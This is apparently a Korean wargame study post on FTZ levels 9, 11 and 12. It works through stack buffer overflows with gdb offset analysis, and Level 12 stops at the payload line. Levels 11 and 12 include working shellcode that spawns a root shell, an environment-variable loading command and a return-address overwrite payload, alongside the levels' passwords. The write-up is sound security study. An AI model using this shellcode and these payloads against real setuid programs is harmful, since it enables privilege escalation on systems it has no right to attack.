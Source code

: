 ```yaml
---
title: FTZ(Level 9, 11, 12)
author: 100zja
date: 2020-08-17
categories: [study]
tags: [ftz]
toc: ture
---
```


## **Level9**  

(1) gdb로 풀기  

![1](/images/구1.PNG) 

ls -al로 파일들을 확인하고  
힌트가 있음을 확인하고 힌트를 읽는다 

![2](/images/구2.PNG)  
코드를 해석해보면  
* char형 변수 buf, buf2가 10 크기의 배열로 각각 선언되고  

* 40만큼의 문자열을 fgets가 입력받아 buf에 저장한다  

* buf2에 저장된 문자가 go와 일치한다면 "Good skill!" 문구 출력과 3010의 level10 권한을 설정하고

* /bin/bash 쉘을 실행한다 
===> fgets에서 취약점이 발생해 버퍼 오버 플로우를 일으킨다는 것을 알 수 있다 

![3](/images/구3.PNG)  

gdb를 실행할 수 있는 권한이 있는 tmp로 이동한 뒤에 cat 명령어로 실행 파일을 생성한 뒤 컴파일한다

![4](/images/구4.PNG)  

gdb를 실행해서 메모리를 확인한다  
* main+3에서 40바이트의 메모리가 할당된다  
* main+43에서 eax에 ebp-40의 주소를 저장함 (buf)    
* main+65에서 eax에 ebp-24의 주소를 저장함(buf2)  
===> buf에서 입력 시에 ebp-40을 넘겨 16바이트를 넘기면 ebp-24 공간을 넘어가 버퍼 오버플로우 발생가능  

![5](/images/구5.PNG) 

bof 소스가 있는 /usr/bin 디렉토리로 이동해 bof 소스를 실행시켜 버퍼 오버플로우를 발생 시키고 level10의 권한을 얻어 my-pass로 확인한다  

### **level10 password : "interesting to hack!"**
-------------


## **Level11**  

![1](/images/십1.PNG)  
ls -al로 파일을 확인하고 cat hint 명령어를 통해 힌트를 열어본다  

![2](/images/십2.PNG)  
* int 배열과 char 배열을 받아옴
* 문자형 str배열의 크기는 256 바이트  
* 3092는 level12의 id임  
* 사용자가 입력한 값을 str에 넣고
* str 출력
====> strcpy에서 취약점이 발생해 버퍼 오버 플로우가 일어난다  

![3](/images/십4.PNG)  


test를 입력하니 그대로 출력된 것으로 보아 힌트가 attackme의 소스코드인 것을 알 수 있다.  

![4](/images/십5.PNG)  
attackme를 권한이 있는 tmp로 복사한 뒤 tmp로 이동해 gdb로 실행시킨다  
gdb를 해석해 보면  
* setreuid전에 확보된 메모리 : 108 + 8 (16진수) = 110 => 272 byte  
* main + 9 : SFP, RET =>8 byte  
===> 256(buffer) + 8(dummy) + 4(SFP) + 4(RET)  

![5](/images/십7.PNG)  
* export 명령어를 통해서 환경변수를 등록해준다  
    - export [환경변수명]=$(python -c 'print "쉘코드"')
* 쉘코드 : "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"  
![6](/images/십8.PNG)  
* env 명령어를 사용해 환경 변수를 확인한다  
    - env 명령어 : 현재 지정되어 있는 환경 변수들을 출력하거나, 새로운 환경 변수를 설정하고 적용된 내용을 출력하는 명령어  
    - env [옵션]... [name = 값]... [명령[인수]...]  

![7](/images/십9.PNG)  
![8](/images/십10.PNG) 

* getenv() 함수 : 환경변수를 읽는 역할  

* SHELLCODE를 실행시키는 프로그램을 짠 뒤 컴파일 해 준다  
dap을 실행해 보면 쉘코드 주소가 나타난다  

![9](/images/십11.PNG)  

* 마지막으로 RET 주소까지 가기 위해서는 268 byte가 필요하므로 페이로드(전송되는 데이터)를 작성해야한다 

* 0xbffffc1d를 리틀엔디안으로 변환하면 \x1d\xfc\xff\xbf  

* 페이로드를 완성하면 ./attackme `python -c 'print "A"*268+"\x1d\xfc\xff\xbf"'`  
그 뒤에 id를 확인하고 level12가 된 것을 확인하고 my-pass를 통해 비밀번호를 확인한다  

### **level12 password : "it is like this"**  
----------------


## **Level 12**

![1](/images/하나.PNG)  
ls -al 명령어로 존재하는 파일들을 확인한다  
힌트가 있는 것을 확인한다

![2](/images/둘.PNG)  
cat hint 명령어를 사용해 힌트를 확인한다  
힌트를 분석해보면  
* 문자형 배열이 256 크기로 선언된다
* level 13의 id가 있고
* gets 함수로 str변수에 입력을 받고
* 입력받은 내용을 printf로 출력한다  
===> gets 함수로 버퍼 오버플로우 취약점이 발생하게 된다

![3](/images/넷.PNG)  
attackme를 gdb로 보기 위해 권한이 있는 tmp 디렉토리로 복사한뒤 tmp로 이동해 gdb로 확인한다  
gdb를 확인해보면   
* main +3 : 264만큼의 메모리 확보  
    - str은 256 byte이므로 dummy값이 8 byte라는 것을 알 수 있음
    - RET - 4 byte
    - SFP - 4 byte
    - str - 256 byte   
===> return address를 덮어쓰기 위해서는 264(str) + 4(sfp) = 268 byte가 필요함  
* main + 49 : ebp - 264 -> str 버퍼부터 ebp까지 거리가 264임  
    - ret : ebp로부터 4byte 아래에 위치하기 때문에 268 byte가 된다(str 부터 ret 까지의 거리)  

문제를 해결하기 위해서는 level11 처럼 쉘코드를 이용해 환경변수에 등록해야한다  
* 쉘 코드 : "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"  

* 환경변수 : export 명령어 샤용  
    - export [환경변수명]=$(python -c 'print "쉘코드"')  
===> - export SHELLCODE=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 를 환경변수로 등록한다  

![4](/images/다섯.PNG)  

그 다음 env 명령어로 등록된 환경변수를 확인한다  

![5](/images/여섯.PNG)  

환경변수에 등록된 쉘코드의 주소를 알아내기 위한 c언어 코드를 작성한 뒤 실행한다  

![6](/images/일곱.PNG)

코드를 컴파일 해준다  

![7](/images/여덟.PNG)  

컴파일 하고 실행해주면 쉘 코드의 주소가 나온다  

마지막으로 쉘 코드 주소를 리틀엔디안으로 변환하고 페이로드를 작성해 답을 구한다

쉘 코드 주소 : 0xbffffc1d  
리틀엔디안 변환 : \x1d\xfc\xff\xbf 

페이로드 : 